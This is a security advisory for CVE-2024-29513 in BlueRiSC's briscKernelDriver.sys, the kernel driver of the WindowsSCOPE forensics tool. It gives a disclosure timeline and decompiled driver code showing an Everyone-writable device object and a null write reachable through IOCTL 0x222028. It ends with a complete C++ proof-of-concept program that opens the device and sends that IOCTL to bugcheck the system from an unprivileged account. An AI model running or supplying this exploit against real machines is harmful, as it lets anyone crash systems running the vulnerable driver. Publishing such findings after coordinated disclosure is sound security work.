



# CVE-2024-29513 - briscKernelDriver.sys

## Overview

Vendor			   	: BlueRiSC

Website			   	: https://www.windowsscope.com/

Product			   	: briscKernelDriver.sys

Affected Version(s)	: < 3.3

"WindowsSCOPE Cyber Forensics 3.2 is a GUI-based memory forensic capture and analysis toolkit. It supports the import of standard raw physical memory dumps which are then automatically reverse engineered and presented in an easy-to-view format for forensic analysis in a central location. It automatically identifies all processes, threads, and drivers running on the system as well as other system activity including open files, registry keys, and network sockets. It supports the latest Windows versions through Windows 10 and also has advanced data search capabilities to find URLs, credit cards, names, etc. in captured memory. Applications include digital forensics, crime investigation, cyber defense & attack detection, and other reverse engineering activities."

While reviewing the briscKernelDriver.sys, several security issues were discovered. These issues include:
- Overly permissive access control to, `\\.\BriscKernel`, the device object created by the briscKernelDriver.sys driver.
- Expired code signing certificate for the briscKernelDriver.sys driver.
- Ability to leverage the briscKernelDriver.sys to perform memory operations in the context of an unprivileged user.
- Ability to trigger a denial-of-service condition (kernel bugcheck) if incorrect data was passed to the briscKernelDriver.sys in the context of an unprivileged user.

## Disclosure Timeline
- **02/13/2024** - Initial disclosure to BlueRiSC and notified of intent to publicly disclose security issues within 90-days.
- **02/14/2024** - Acknowledgement from BlueRiSC. Provided clarifying information about device object permissions and provided a method for them to confirm the ACL issues were addressed.
- **03/04/2024** - WindowsSCOPE website now displays version 3.3 indicating a silent patch without disclosure. Additional email to BlueRiSC was sent asking for clarification about this patch and advised that if these issues have been remediated, then we will move forward with an earlier public disclosure. 
- **03/05/2024** - BlueRiSC stated that version 3.3 contains the fix for the driver permission issue. A copy of the updated driver was requested to confirm everything was fixed.
- **03/06/2024** - BlueRiSC agreed to have the version 3.3 kernel driver tested to confirm permissions issue was fixed.
- **03/15/2024** - Version 3.3 kernel driver was tested and ACL fix was confirmed.
- **03/15/2024** - Public disclosure.

## Expired Driver Signing Certificate
WindowsSCOPE Cyber Forensics 3.2 ships with a version of briscKernelDriver.sys (built January 23, 2019) that has an expired signing certifiate.



A user of the WindowsSCOPE product would need to disable driver signature enforcement to use the provided driver.

## Overly Permissive Device Object ACL
The briscKernelDriver.sys driver creates a device object that allows the Everyone built-in group to write to the device. This is because `IoCreateDevice` was used instead of `WdmlibIoCreateDeviceSecure`\\`IoCreateDeviceSecure`.



```c++
NTSTATUS DriverEntry(DRIVER_OBJECT* DriverObject)

    DbgPrint(Format: "BlueRISC Kernel Driver\n")
    DbgPrint(Format: "Built %s %s\n", "Jan 23 2019", "09:55:52")
    DriverObject->MajorFunction[0] = IRP_MJ_CreateClose
    DriverObject->MajorFunction[2] = IRP_MJ_CreateClose
    DriverObject->DriverUnload = sub_19314
    DriverObject->MajorFunction[0xe] = IRP_MJ_DEVICE_CONTROL
    void DeviceName
    RtlInitUnicodeString(DestinationString: &DeviceName, SourceString: u"\Device\BriscKernel")
    NTSTATUS rax = IoCreateDevice(DriverObject, DeviceExtensionSize: 0, DeviceName: &DeviceName, DeviceType: 0x22, DeviceCharacteristics: 0, Exclusive: 0, DeviceObject: &DeviceObject)
    if (rax s>= STATUS_SUCCESS)
        void SymlinkName
        RtlInitUnicodeString(DestinationString: &SymlinkName, SourceString: u"\DosDevices\BRISCKERNEL")
        NTSTATUS rax_1 = IoCreateSymbolicLink(SymbolicLinkName: &SymlinkName, DeviceName: &DeviceName)
        if (rax_1 s>= STATUS_SUCCESS)
            DEVICE_OBJECT* DeviceObject_1 = DeviceObject
            DeviceObject_1->Flags = DeviceObject_1->Flags | DO_BUFFERED_IO
            rax = STATUS_SUCCESS
        else
            IoDeleteDevice(DeviceObject)
            rax = rax_1
    return rax
```

## Denial of Service Proof-of-Concept
It is possible from an unprivileged context to interact with the driver and create a denial of service condition. This is possible by sending unexpected data to the `0x222028` IOCTL.

```c++
if (IOCTL == 0x222028)
    HANDLE Handle = *PIRP->AssociatedIrp
    DbgPrint(Format: "processHandle = 0x%x\n", Handle)
    rax_13 = ObReferenceObjectByHandle(Handle, DesiredAccess: 0x418, ObjectType: *PsProcessType, AccessMode: PIRP->RequestorMode, Object: &arg_10, HandleInformation: nullptr)
    rbx = rax_13
    if (rax_13 s>= STATUS_SUCCESS)
        void ApcState
        KeStackAttachProcess(PROCESS: arg_10, ApcState: &ApcState)
        *nullptr = 0
        PIRP->IoStatus.Information = 0
    else
        DbgPrint(Format: "ObReferenceObjectByHandle failed")
```



```c++
#include <windows.h>
#include <iostream>
#include <DbgHelp.h>
#include <TlHelp32.h>

#pragma comment(lib, "Dbghelp.lib")

#define IOCTL_GetVirtMem 0x222020
#define IOCTL_TriggerBugCheck 0x222028

static const char* DeviceName = R"(\\.\BriscKernel)";

typedef struct _BRISC_READ_MEMORY {
    HANDLE pHandle;
} BRISC_READ_MEMORY, * PBRISC_READ_MEMORY;

DWORD GetProcessIdByName(const std::wstring& processName) {
    HANDLE hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pEntry;
    pEntry.dwSize = sizeof(pEntry);

    BOOL hRes = Process32First(hSnapShot, &pEntry);
    while (hRes) {
        if (wcscmp(pEntry.szExeFile, processName.c_str()) == 0) {
            CloseHandle(hSnapShot);
            return pEntry.th32ProcessID;
        }
        hRes = Process32Next(hSnapShot, &pEntry);
    }

    CloseHandle(hSnapShot);
    return 0;
}

std::wstring StringToWString(const std::string& s) {
    int len;
    int slength = (int)s.length() + 1;
    len = MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, 0, 0);
    wchar_t* buf = new wchar_t[len];
    MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, buf, len);
    std::wstring r(buf);
    delete[] buf;
    return r;
}

constexpr DWORD cexpr_lstrlenW(const wchar_t str[]) {
    DWORD i = 0;
    while (str[i++]) {}
    return i;
}

void DumpVirtualMemory(const std::wstring& processName) {
    DWORD pid = GetProcessIdByName(processName);
    if (pid == 0) {
        std::wcout << L"Process not found.\n";
        return;
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (hProcess == NULL) {
        std::wcout << L"Failed to open process.\n";
        return;
    }

    HANDLE hDevice = CreateFileA(DeviceName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDevice == INVALID_HANDLE_VALUE) {
        std::wcout << L"Failed to open device.\n";
        CloseHandle(hProcess);
        return;
    }

    BRISC_READ_MEMORY readMemory;
    readMemory.pHandle = hProcess;
    BYTE outBuffer[0x1004] = { 0 };
    DWORD dwBytesReturned;

    BOOL bResult = DeviceIoControl(hDevice, IOCTL_TriggerBugCheck, &readMemory, 0x18, outBuffer, 0x1004, &dwBytesReturned, NULL);
    if (!bResult) {
        std::wcout << L"DeviceIoControl failed with error: " << GetLastError() << L"\n";
    }
    else {
        std::wcout << L"You won't even see this because we bugchecked the system.\n";
        std::wcout << L"Memory dumped successfully.\n";

        std::wstring filePath = L"dumped_memory.bin";
        HANDLE hFile = CreateFileW(filePath.c_str(), GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hFile != INVALID_HANDLE_VALUE) {
            DWORD written;
            BOOL writeResult = WriteFile(hFile, outBuffer, dwBytesReturned, &written, NULL);
            if (!writeResult || written != dwBytesReturned) {
                std::wcout << L"Failed to write memory dump to file.\n";
            }
            else {
                std::wcout << L"Memory dump successfully written to " << filePath << L"\n";
            }
            CloseHandle(hFile);
        }
        else {
            std::wcout << L"Failed to open file for writing.\n";
        }
    }

    CloseHandle(hDevice);
    CloseHandle(hProcess);
}

int main() {
    DumpVirtualMemory(L"PoC.exe");
}
```
